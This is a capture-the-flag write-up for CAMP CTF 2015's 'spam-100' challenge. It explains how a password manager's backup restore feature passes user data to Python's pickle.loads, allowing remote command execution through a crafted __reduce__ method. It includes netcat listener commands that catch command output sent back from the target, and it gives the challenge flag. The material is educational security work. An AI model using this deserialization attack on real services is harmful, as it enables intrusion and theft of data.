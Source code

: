 # CAMP CTF 2015: spam-100

**Category:** Pwn
**Points:** 100
**Solves:** 107
**Description:**

> You have problems remembering all your different passwords?
>
> [Here](spam.py) is THE tool for you!
>
> `nc challs.campctf.ccc.ac 10113`


## Write-up

This writeup is based on following writeups:

* <https://github.com/vito-lbs/cccctf/tree/master/spam>
* <https://pacmans.army/?p=290>
* <http://blog.whatever.io/2015/08/18/campctf-spam100-pwn/>

### Meta

Keywords:

* Python Pickle `pickle`
* Remote Code Execution `rce`

We are given a Python file, which essentially is a Password Manager Service.

Running it creates a service that listens on port `1024`:

```bash
remote$ python spam.py
[...] <listens>

# On another terminal:
$ nc localhost 1024
Welcome to Super Password Authentication Manager (SPAM)!
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 0 passwords:
---
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
2
Enter name of the site: www.secret.com
Enter password: secreter
Password successfully added.
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 1 passwords:
www.secret.com: secreter
---
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
4
Your backup: eJzTSCkw4ApWLy8v1ytOTS5KLdFLzs9V5yowBApCBFKLgFwjrmI9AC0+DWg=

Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
3
Enter name of the site which should be deleted: www.secret.com
Entry successfully deleted.
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 0 passwords:
---
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
5
Paste your backup here: eJzTSCkw4ApWLy8v1ytOTS5KLdFLzs9V5yowBApCBFKLgFwjrmI9AC0+DWg=
Successfully restored 1 entries
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
1
Listing 1 passwords:
www.secret.com: secreter
---
Menu:
1) List Passwords
2) Add a Password
3) Remove a Password
4) Backup Passwords
5) Restore backup
```

We can list, add and remove passwords to sites as well as backup and restore them.

The site-password key-value pairs are stored in an dictionary named `entries`.

The vulnerability lies in the `spam_backup` and `spam_restore` functions.

When a user decides to backup data, `pickle` is first used to serialize the data using `pickle.dumps`, `zlib` then compresses the data and the data finally is base64 encoded and sent to the user.
When restoring backup data, the data provided by the user is base64 decoded, decompressed using `zlib` and finally deserialized using `pickle.loads`.

However, as shown in [this blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/), `pickle.loads` calls the [`__reduce__` method of provided objects](https://docs.python.org/2/library/pickle.html#pickling-and-unpickling-extension-types) in order to know how to deserialize (and thus ["how to pickle"](https://docs.python.org/2/library/pickle.html#object.__reduce__)) the object.

To exploit this feature, we create a class object with a `__reduce__` method that executes arbitrary commands.
As described in [nelhage's blog post](https://blog.nelhage.com/2011/03/exploiting-pickle/), the method should return "either a string or tuple describing how to reconstruct this object on unpacking". Our tuple should consist of a callable and a tuple of arguments for this callable.

E.g. if we want to execute `subprocess.Popen('/bin/sh')`, the first tuple entry will be `subprocess.Popen` while the second entry will be a tuple containing the string `/bin/sh`: `('/bin/sh',)`.

[This python script](./solve.py) does the job:

```bash
# Terminal 1, listen for a connection on your site
$ while true; do nc -l 5555; done
[...]

# Terminal 2, execute solve.py with first argument being the command to be executed
$ p solve.py 'ls'
[+] Opening connection to localhost on port 1024: Done
[*] Closed connection to localhost port 1024

# Terminal 1, see output of ls
$ while true; do nc -l 5555; done
flag.txt
spam.py
[...]

# Terminal 2, read flag.txt
$ p solve.py 'cat flag.txt'
[+] Opening connection to localhost on port 1024: Done
[*] Closed connection to localhost port 1024

# Terminal 1, see flag.txt content
[...]
flag.txt
spam.py
CAMP15_76b5fad40644ac0616b301454250c408
```

The flag is `CAMP15_76b5fad40644ac0616b301454250c408`.

PS: If you want to read more about the pickle format (e.g. print out what `pickle.dumps(entries)` generates), have a look [here](https://www.cs.uic.edu/~s/musings/pickle.html).

Some alternative solutions such as [this writeup](http://reu.org.ua/camp-ctf-2015-spam.html) or [that writeup](http://sol.logdown.com/posts/2015/08/14/campctf-2015-pwn-spam) did provide the result of the `__reduce__` method directly.

## Other write-ups and resources

* <https://github.com/vito-lbs/cccctf/tree/master/spam>
* <https://pacmans.army/?p=290>
* <http://blog.whatever.io/2015/08/18/campctf-spam100-pwn/>
* [Russian](http://reu.org.ua/camp-ctf-2015-spam.html) 
* [Chinese](http://sol.logdown.com/posts/2015/08/14/campctf-2015-pwn-spam)
